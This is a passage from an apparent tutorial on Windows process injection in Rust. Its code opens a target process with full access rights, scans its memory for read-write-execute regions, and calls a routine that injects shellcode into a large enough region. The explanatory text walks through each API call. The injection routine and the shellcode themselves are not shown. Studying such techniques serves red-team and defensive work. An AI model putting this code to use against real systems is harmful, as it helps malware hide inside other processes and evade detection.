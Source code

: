 ```rust
    process_name.len() as u32,
);
let process_name = String::from_utf16_lossy(&process_name[..name_len as usize]);

println!("[+] Opened process {} (ID: {})", process_name, process_id);

let mut address: *mut winapi::ctypes::c_void = ptr::null_mut();
let mut success = false;
```

In this portion, we open the process using [`OpenProcess`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) with`PROCESS_ALL_ACCESS` rights. `PROCESS_ALL_ACCESS` means "All possible access rights for a process object."

Then, we get the process name using [`GetModuleBaseNameW`](https://learn.microsoft.com/en-us/windows/win32/api/psapi/nf-psapi-getmodulebasename) and print it along with the process ID just as a debug message.


````rust
loop {
    // a zeroed MEMORY_BASIC_INFORMATION struct
    let mut mbi: MEMORY_BASIC_INFORMATION = std::mem::zeroed(); 
    let result = VirtualQueryEx(
        h_process,
        address,
        &mut mbi,
        std::mem::size_of::<MEMORY_BASIC_INFORMATION>(),
    );
    if result == 0 {
        break; // No more memory regions to query
    }
    if mbi.Protect == winapi::um::winnt::PAGE_EXECUTE_READWRITE {
        println!(
            "[+] Found PAGE_EXECUTE_READWRITE memory region at {:p}",
            mbi.BaseAddress
        );
        if mbi.RegionSize >= 317 {
            inject_shellcode_into_rwx_region(h_process, mbi.BaseAddress)?;
            success = true;
            break;
        } else {
            println!(
                "[-] Memory region too small ({} bytes), skipping",
                mbi.RegionSize
            );
        }
    }
    address = (mbi.BaseAddress as usize + mbi.RegionSize) as *mut _;
}
````

`mbi` is a [`MEMORY_BASIC_INFORMATION`](https://docs.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-memory_basic_information) struct that holds information about a memory region in the target process. Initially, the `mbi` struct is zeroed out using `std::mem::zeroed()`.
